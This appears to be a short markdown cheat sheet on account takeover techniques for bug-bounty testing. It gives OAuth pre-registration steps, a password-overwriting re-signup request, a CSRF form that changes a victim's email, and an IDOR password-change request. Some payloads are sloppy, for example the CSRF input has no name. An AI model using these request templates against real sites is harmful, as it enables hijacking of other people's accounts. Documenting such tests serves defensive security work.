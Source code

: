 # Account Takeover

## Introduction
Account Takeover (known as ATO) is a type of identity theft where a bad actor gains unauthorized access to an account belonging to someone else.

## How to exploit
1. Using OAuth Misconfiguration
   - Victim has a account in evil.com
   - Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
   - Attacker changed his/her email to victim email.
   - When the victim try to create an account on evil.com, it says the email already exists.

2. Try re-sign up using same email
   ```
   POST /newaccount HTTP/1.1
   ...
   email=victim@mail.com&password=1234
   ```
   After sign up using victim email, try signup again but using different password
   ```
   POST /newaccount HTTP/1.1
   ...
   email=victim@mail.com&password=hacked
   ```

3. via CSRF
   - Create an account as an attacker and fill all the form, check your info in the Account Detail.
   - Change the email and capture the request, then created a CSRF Exploit.
   - The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@*******.com and submitted a request in the victim’s account.

   ```html
   <html>
   <body>
      <form action="https://evil.com/user/change-email" method="POST">
         <input type="hidden" value="victim@gmail.com"/>
         <input type="submit" value="Submit Request">
      </form>
   </body>
   </html>
   ```

4. Chaining with IDOR, for example
   ```
   POST /changepassword.php HTTP/1.1
   Host: site.com
   ...
   userid=500&password=heked123
   ```
   500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID

5. No Rate Limit on 2FA

References:
- [Pre-Account Takeover using OAuth Misconfiguration](https://vijetareigns.medium.com/pre-account-takeover-using-oauth-misconfiguration-ebd32b80f3d3)
- [Account Takeover via CSRF](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)
- [How re-signing up for an account lead to account takeover](https://zseano.medium.com/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f)
